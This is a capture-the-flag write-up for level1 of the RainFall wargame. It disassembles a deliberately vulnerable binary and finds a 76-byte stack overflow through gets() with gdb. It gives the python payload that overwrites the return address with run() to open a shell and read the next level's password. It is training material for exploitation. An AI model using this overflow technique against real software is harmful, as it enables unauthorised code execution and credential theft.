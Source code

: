 # Level1

## What we have
```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```
## Testing the program

```bash 
level1@RainFall:~$ ./level1 
hello
level1@RainFall:~$ ./level1 
423
```

We have an executable that quits after given an argument. 

## Analysing the program

```bash 
info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
```

There are two functions main and run. 

### Main
```bash 
disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
```

We allocate 0x50 (80 in decimal) bytes on the stack with 'sub'. 
Then 'lea' and 'mov', calculate the address of the variable located at esp + 0x10 and puts that address as argument for the 'gets()' call. 

### Run

```bash
Address	        Instruction	            Explanation
0x08048444	    push %ebp	            Save base pointer
0x08048445	    mov %esp, %ebp	        Set up new stack frame
0x08048447	    sub $0x18, %esp	        Reserve 24 bytes on the stack
0x0804844a	    mov 0x80497c0, %eax	    Load a global variable (possibly stdout or a string)
0x0804844f	    mov %eax, %edx	        Copy it into EDX
0x08048451	    mov $0x8048570, %eax	Load address of a string to print (format string?)
0x08048456–0x0804846a	                Prepare arguments for fwrite()
```

The run() function :
Displays a message with fwrite()
Executes a system command /bin/sh but it is never called in main


## Getting access to the shell 

We are going to do a [buffer overflow](https://www.youtube.com/watch?v=1S0aBV-Waeo) in the main, so that the return address is the address of the run() function which will call /bin/sh giving us access to a terminal where we will be able to call cat on the .passwd file. 

Let's [generate a unique pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to find the offset

```bash 
(gdb) set args < <(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
(gdb) run
Starting program: /home/user/level1/level1 < <(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

```
0x63413563 --> Offset is 76
The last 4 bytes of the payload will be the address of the function "run" for calling it instead of EIP
The address of the "run" function is "0x08048444" has seen above, that we will convert to little endian

```bash
$ python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
$ cat /home/user/level2/.pass
***************************************
```

We have access let's [script it](./Ressources/exploit.py)! 
